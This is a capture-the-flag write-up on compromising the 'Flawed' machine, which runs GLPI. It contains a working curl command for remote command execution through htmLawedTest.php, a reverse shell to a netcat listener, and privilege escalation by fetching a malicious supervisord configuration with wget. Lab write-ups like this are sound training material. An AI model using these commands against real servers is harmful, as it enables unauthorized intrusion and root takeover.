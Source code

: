 # Flawed machine from brCTF

## Information Gathering/Reconnaissance
As is customary, we initiate our preferred network scanning tool, Nmap, to conduct initial reconnaissance. Our scan reveals that port 80, which is typically associated with HTTP and port 22, are accessible. <br>
`nmap -sC -sV -oN flawed.nmap 10.0.160.157`
```
Nmap scan report for 10.0.160.157
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second phase of our reconnaissance, we proceed to examine the application hosted on port 80 by accessing it through our web browser. To our surprise, we are welcomed with a login page. Quite intriguing!
![GLPI Login](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-login.png "a title")

After a brief research on google we discovered default credentials for GLPI which we can try on out target.
![google glpi logins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-default-creds.png "a title")

### Exploitation
We now attempt to login to GLPI and viola!!<br>
From there we move on with out recon and attempt to find the version of GLPI running. Hopefully we can find publicly available exploits.
![glpi logged in](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/checking-glpi-version.png "a title")
The version of GLPI can be seen in the photo below.
![glpi version enum](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-version.png "a title")

Now that we know the version running, we can google it to find avaiable exploits and shortly after, we find one on github from [Orange-CyberDefense](https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh)

**CURL Command to exploit the vulnerability** <br>
```curl -s -d 'sid=foo&hhook=exec&text=[command]' -b 'sid=foo' http://[target-ip]/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'```

Replace [command] and [target] with the command you  want to execute on the target and the IP address of the target respecfully.

We modify the exploit to get a reverse shell on out netcat listener.<br>
Firstly, we must make sure we are listening for incoming connections. <br>
![netcat listening](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-netcat-listener.png "a title")

Secondly, we prepare our exploit code to obtain a reverse shell.<br>
![preparing payload](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/modify-exploit.png "a title")

We execute the command and boom!! we get a connection on our listener. <br>
![conn reccv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/nc-connection-received.png "a title")

## Post Exploitation
As usual we need to stabilize out shell and the steps are as follows:<br>
#### Shell stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>

Let's continue from when we left off. Let's check the sudo privileges the `ETSCTF` user has on the box.
![sudo privs](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/check-sudo-privs.png "a title")

Hmmmm, interesting..... Can we abuse this? <br>
After doing some research we find out that: <br>
Supervisord is a `process control system` for Unix-like operating systems. It allows you to manage and monitor multiple processes, ensuring that they run continuously and `automatically restarting` them if they fail. Supervisord is often used to manage services, daemons, and other long-running processes.

Supervisord can run commands in it's configuration file. Now you get the hint from here? So what we'll have to do is to craft a configuration file for supervisord which contains commands to execute.<br>
We will take advantage of this to spawn a shell.<br>
![sudo privs](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/spawn-nc-shell-priv.png "a title")

Before anything else let's start our listener<br>
![other nc listener](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/other-nc-listener.png "a title")

Now we have to transfer our malicious configuration to the target. To make that possible we must start our local python http server in the directory containing out malicious configuration. <br>
`python3 -m http.server 8000`
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-python-http-server.png "a title")

Downloading the malicious configuation from our python http server.<br>
NB: make sure you have write privileges to the current diretory you are in. You can use the `/tmp` since it has very loose permissions.<br>
`wget http://<server.ip>:<port>/test.conf`
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/downloading-mal-conf-file.png "a title")

Right after downloding the file we transfer it the the `/var/tmp` direcrory. This is necessary because it is the only folder that we can execute configuration files from.<br>
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/copy-payload-to-tmp.png "a title")